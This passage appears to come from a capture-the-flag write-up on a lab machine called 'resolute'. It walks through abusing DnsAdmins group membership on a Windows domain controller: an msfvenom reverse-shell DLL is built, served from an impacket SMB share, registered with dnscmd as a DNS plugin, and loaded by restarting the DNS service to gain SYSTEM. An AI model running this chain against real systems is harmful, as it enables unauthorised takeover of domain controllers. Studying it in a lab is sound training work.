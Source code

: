```bash
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

This user is a member of the group DnsAdmins, could I have root with that?

Doing some research, I found that group members DNSAdminshave access to the network's DNS information. The default permissions are: Read, Write, Create all child objects, Delete child objects, Special permissions.

To abuse it then I will:
* Create a Malicious DLL to have a shell
* this DLL will run via DNS and will then give me a connection as SYSTEM on the victim machine in the Domain Controller

```bash
└─# msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.14.16 LPORT=443 -f dll -o reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: reverse.dll
```
we create a local smb server to have it dllin the victim machine when running DNS
```bash
─# impacket-smbserver s .
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> dnscmd.exe /config /serverlevelplugindll \\10.10.14.16\s\reverse.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\resolute start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2852
        FLAGS              :
```